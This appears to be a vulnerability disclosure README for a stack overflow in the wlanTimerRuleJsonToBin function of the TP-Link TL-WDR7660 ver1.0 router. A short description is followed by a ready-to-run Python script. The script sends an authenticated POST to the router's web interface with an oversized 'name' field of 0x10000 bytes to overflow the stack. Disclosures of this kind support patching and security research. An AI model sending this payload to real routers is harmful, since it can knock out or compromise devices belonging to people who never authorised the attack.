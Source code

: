 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The wlanTimerRuleJsonToBin function is not checked when handling a copy of the important parameter name.It can result in the stack to overflow

![image](image/1.png)

**Exploit a vulnerability in the wlanTimerRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"time_switch":{"name":"a"*0x10000,"table":"time_switch","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"a","enable":1,"start_time":"00%3A00","end_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**
![image](image/2.png)
